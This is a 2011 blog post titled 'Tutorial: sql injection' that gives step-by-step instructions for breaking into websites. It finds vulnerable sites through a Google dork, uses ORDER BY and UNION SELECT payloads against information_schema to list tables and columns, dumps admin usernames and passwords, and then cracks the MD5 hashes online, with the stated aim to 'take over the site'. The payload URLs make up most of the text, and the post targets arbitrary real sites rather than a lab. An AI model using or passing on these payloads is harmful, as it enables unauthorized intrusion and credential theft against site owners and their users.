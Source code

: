 ```yaml
---
# http://learn.getgrav.org/content/headers
title: Tutorial: sql injection
slug: tutorial-sql-injection
# menu: Tutorial: sql injection
date: 17-01-2011
published: true
publish_date: 17-01-2011
# unpublish_date: 17-01-2011
# template: false
# theme: false
visible: true
summary:
    enabled: true
    format: short
    size: 128

taxonomy:
    category:
        - Blog
    tag:
        - database
        - exploit
        - hack
        - hacking
        - internet
        - passwords
        - sql
        - website
    author:
        - 'Shashank Agarwal'
    migration-status: review
    category: [database,exploit,hack,hacking,internet,passwords,sql,website]
    tag: []
author: 'Shashank Agarwal'
metadata:
    author: 'Shashank Agarwal'
#      description: Your page description goes here
#      keywords: HTML, CSS, XML, JavaScript
#      robots: noindex, nofollow
#      og:
#          title: The Rock
#          type: video.movie
#          url: http://www.imdb.com/title/tt0117500/
#          image: http://ia.media-imdb.com/images/rock.jpg
#  cache_enable: false
#  last_modified: true

---
```


[![](http://4.bp.blogspot.com/_V2JZuLkPrjQ/TTR4IWoJmBI/AAAAAAAAI5A/hb8X5Yi_5as/s200/SQL-Injection-Attack.jpg)](http://4.bp.blogspot.com/_V2JZuLkPrjQ/TTR4IWoJmBI/AAAAAAAAI5A/hb8X5Yi_5as/s1600/SQL-Injection-Attack.jpg)

Sql Injection tutorial advanced. So far in all the hacks the most used by h4ck3rs from n00b to an 1337 one has been the SQL injection attack. Here we at hackiteasy we present a tutorial on how to apply SQL injection to websites. This trick has been found to be working on a huge no. of sites.

The hack starts as follows.

**Finding vulnerable site**

To find a vunerable site open google

Type in a dork like “inurl:index.php?id=” (without quotes) there are many other similar formats for finding such vulnerable pages.

Now click on any site like http://www.yoursite.com/index.php?id=786

Now to test if the siote is hackable or not add a ‘ at the end of the site.

If the site gives an error like

“You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ”84′ at line 1″

we can assume that it is vunerable. If not try some other site.

We have the vulnerable site now. So lets try with different sql injection queries.

**Checking the number of columns:**

 To check the number of columns we do the following

http://www.site.com/index.php?id=-786 order by 1– if the page loads normally without any error we proceed below  
http://www.site.com/index.php?id=-786 order by 2– (no error)  
similarly check  
http://www.site.com/index.php?id=-786 order by 3–  
http://www.site.com/index.php?id=-786 order by 4–  
http://www.site.com/index.php?id=-786 order by 5–  
http://www.site.com/index.php?id=-786 order by 6– =>error

if we get an error at the 6 like “unknown column” that means there exists only 5 columns.

**Finding vunerable columns:**

To find the vunerable columns we add union all select 1,2,3,4,5– after http://www.site.com/index.php?id=-786

Now the url becomes

http://www.site.com/index.php?id=-786 union all select 1,2,3,4,5–

after hitting enter we if we see some numbers like 2 4 some where on the page.Then the columns 2 and 4 are vunerable and data can be retrieved from colums 2 and 4. This is important as we would see data on these columns only.

**Finding Mysql version:**

To find the sql version we replace 2 or 4 (or the bulnerable column in yor case) with @@version.

The URL would become-

http://www.site.com/index.php?id=-786 union all select 1,@@version,3,4,5–

After hitting enter the sql version appears on the page in the vulnerable column space

Lets assume we got 5.0.90-community-log on page which is sql version.

**Getting Table names:**

To get table names replace @@version in the url with table\_name and add from information\_schema.tables– to the end.

The url now becomes

http://www.site.com/index.php?id=-786 union all select 1,table\_name,3,4,5 from information\_schema.tables–

After hitting enter the page shows the tablenames.

Lets us assume we got something like this

comment,log,admin,news,news\_comment,members.

To take over the site we data should be retrieved from admin table.As it seems the most favorable to contain all the passwords.

**Getting the column names:**

To get the column names from the table “admin” we do the following

http://www.site.com/index.php?id=-786 union all select 1,column\_name,3,4,5 from information\_schema.columns where table\_name=char(ascii of tablename)–

**Converting the tablename to ascii:**  
** **  
For the real hack above first we have to convert the admin table to ascii values. Convert the tablename to ascii here

http://www.getyourwebsitehere.com/jswb/t…ascii.html

The ascii generated for the table name admin is & #97;&# 100;&# 109;&# 105;&# 110;

Now remove &# and add a , between them

So now it is 97,100,109,105,110

Replace it in the place of ascii of the tablename

Now it becomes

http://www.site.com/index.php?id=-786 union all select 1,column\_name,3,4,5 from information\_schema.columns where table\_name=char(97,100,109,105,110)–

You can now see something like

username pwd gender email on page

**Getting username and password:**

To get the username and password we use

http://www.site.com/index.php?id=-786 union all select 1,concat(username,0x3a,pwd),3,4,5 from admin–   and hit enter.

At this point we see username and password on page.

The password may be in MD5 encrypted form, this can easilt be decrypted using the following converter-

http://www.md5decrypter.co.uk

This was a nice SQL injection hack tutorial. Please comment if you like the post.

Regards [hackiteasy.com](http://hackiteasy.com/)

Go to our new site- shankee.com
